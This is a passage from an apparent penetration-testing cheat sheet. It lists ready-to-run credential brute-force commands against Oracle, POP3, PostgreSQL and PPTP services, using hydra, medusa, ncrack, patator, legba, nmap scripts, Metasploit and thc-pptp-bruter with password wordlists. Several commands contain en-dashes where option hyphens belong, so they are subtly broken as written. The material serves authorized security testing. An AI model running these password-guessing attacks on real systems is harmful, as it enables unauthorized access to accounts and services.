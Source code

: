 ```bash

legba oracle --target localhost:1521 --oracle-database SYSTEM --username admin --password data/passwords.txt
```

In order to use **oracle\_login** with **patator** you need to **install**:

```bash
pip3 install cx_Oracle --upgrade
```

[Offline OracleSQL hash bruteforce](https://github.com/carlospolop/hacktricks/blob/master/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force.md#outer-perimeter-remote-stealth-pass-brute-force) (**versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2,** and **11.2.0.3**):

```bash
 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```

### POP

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

# Insecure
legba pop3 --username admin@example.com --password wordlists/passwords.txt --target localhost:110

# SSL
legba pop3 --username admin@example.com --password wordlists/passwords.txt --target localhost:995 --pop3-ssl
```

### PostgreSQL

```bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
legba pgsql --username admin --password wordlists/passwords.txt --target localhost:5432
```

### PPTP

You can download the `.deb` package to install from [https://http.kali.org/pool/main/t/thc-pptp-bruter/](https://http.kali.org/pool/main/t/thc-pptp-bruter/)

```bash
sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u $user <IP>
```
